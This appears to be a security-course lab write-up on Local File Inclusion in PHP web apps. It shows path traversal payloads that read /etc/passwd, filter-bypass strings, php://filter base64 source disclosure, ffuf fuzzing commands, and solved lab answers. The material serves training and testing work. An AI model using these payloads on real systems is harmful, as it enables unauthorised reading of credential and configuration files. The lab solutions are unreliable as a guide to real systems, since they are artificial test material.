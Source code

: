 # 🤽‍♀️ File Disclosure

## Local File Inclusion (LFI)

Let's see how we can exploit these vulnerabilities in different scenarios to be able to read the content of local files on the back-end server.

Imagine a web app where we can choose language ->

<figure><img src="../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

if the web application is pulling a file that is now being included in the page, we may be able to change the file being pulled to read the content of a different local file.

```
http://<SERVER_IP>:<PORT>/index.php?language=/etc/passwd
```

<figure><img src="../../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

Sometimes we will need to use relatives paths and going back to root ->

```
http://<SERVER_IP>:<PORT>/index.php?language=../../../../etc/passwd
```

A more advanced LFI attack is a `Second Order Attack`. This occurs because many web application functionalities may be insecurely pulling files from the back-end server based on user-controlled parameters.

For example, a web application may allow us to download our avatar through a URL like (`/profile/$username/avatar.png`). If we craft a malicious LFI username (e.g. `../../../etc/passwd`), then it may be possible to change the file being pulled to another local file on the server and grab it instead of our avatar.

_**Using the file inclusion find the name of a user on the system that starts with "b".**_

<figure><img src="../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

_**Submit the contents of the flag.txt file located in the /usr/share/flags directory.**_

<figure><img src="../../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

## Basic Bypasses

One common LFI filter is one that deletes substrings of (`../`), to bypass this if we use `....//` as our payload, then the filter would remove `../` and the output string would be `../` as well as `..././` or `....\/` and several other recursive LFI payloads. Furthermore, in some cases, escaping the forward slash character may also work to avoid path traversal filters (e.g. `....\/`), or adding extra forward slashes (e.g. `....////`)

Another way of bypassing would be to URL encode `../` into `%2e%2e%2f`, which may bypass the filter

<figure><img src="../../../.gitbook/assets/image (1380).png" alt=""><figcaption></figcaption></figure>

{% content-ref url="../command-injections/" %}
[command-injections](../command-injections/)
{% endcontent-ref %}

Some web applications may also use Regular Expressions to ensure that the file being included is under a specific path. Let's say we can call paths that are under the `./languages ,` we could start our payload with the approved path, and then use `../` to go back to the root directory

```
<SERVER_IP>:<PORT>/index.php?language=./languages/../../../../etc/passwd
```

***

some web applications append an extension to our input string (e.g. `.php`), to ensure that the file we include is in the expected extension.

In earlier versions of PHP, defined strings have a maximum length of 4096 characters

PHP also used to remove trailing slashes and single dots in path names, so if we call (`/etc/passwd/.`) then the `/.` would also be truncated, and PHP would call (`/etc/passwd`)

it is also important to note that we would also need to `start the path with a non-existing directory` for this technique to work.

```url
?language=non_existing_directory/../../../etc/passwd/./././.[./ REPEATED ~2048 times]
```

Here is a command to do that ->

```shell-session
echo -n "non_existing_directory/../../../etc/passwd/" && for i in {1..2048}; do echo -n "./"; done
```

***

PHP versions before 5.5 were vulnerable to `null byte injection`, which means that adding a null byte (`%00`) at the end of the string would terminate the string and not consider anything after it.

_**The above web application employs more than one filter to avoid LFI exploitation. Try to bypass these filters to read /flag.txt**_

```
http://94.237.54.205:42808/index.php?language=languages/....//....//....//....//flag.txt
```

## PHP Filters

If we identify an LFI vulnerability in PHP web applications, then we can utilize different [PHP Wrappers](https://www.php.net/manual/en/wrappers.php.php) to be able to extend our LFI exploitation

[PHP Filters](https://www.php.net/manual/en/filters.php) are a type of PHP wrappers,where we can pass different types of input and have it filtered by the filter we specify. To use PHP wrapper streams, we can use the `php://` scheme in our string, and we can access the PHP filter wrapper with `php://filter/`. We will mainly use the parameters `resource` and `read`.\
There are 4 main filters: [String Filters](https://www.php.net/manual/en/filters.string.php), [Conversion Filters](https://www.php.net/manual/en/filters.convert.php), [Compression Filters](https://www.php.net/manual/en/filters.compression.php), and [Encryption Filters](https://www.php.net/manual/en/filters.encryption.php)

To find php pages:

```shell-session
ffuf -w /opt/useful/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://<SERVER_IP>:<PORT>/FUZZ.php
```

If we wanted to read the code from config.php or any php file we found, we could think of doing the following:

```
http://<SERVER_IP>:<PORT>/index.php?language=config
```

But since it's not HTML it would not render anything but we could disclose their sources with the `base64` PHP filter

```url
php://filter/read=convert.base64-encode/resource=config
```

Which would give this ->

```
http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=config
```

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

And now we just need to decode the code with:

```shell-session
echo 'PD9waHAK...SNIP...KICB9Ciov' | base64 -d
```

_**Fuzz the web application for other php scripts, and then read one of the configuration files and submit the database password as the answer**_

```
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://83.136.255.40:38460/FUZZ.php
```

<figure><img src="../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

```
http://83.136.255.40:38460/index.php?language=php://filter/read=convert.base64-encode/resource=configure
```

<figure><img src="../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>
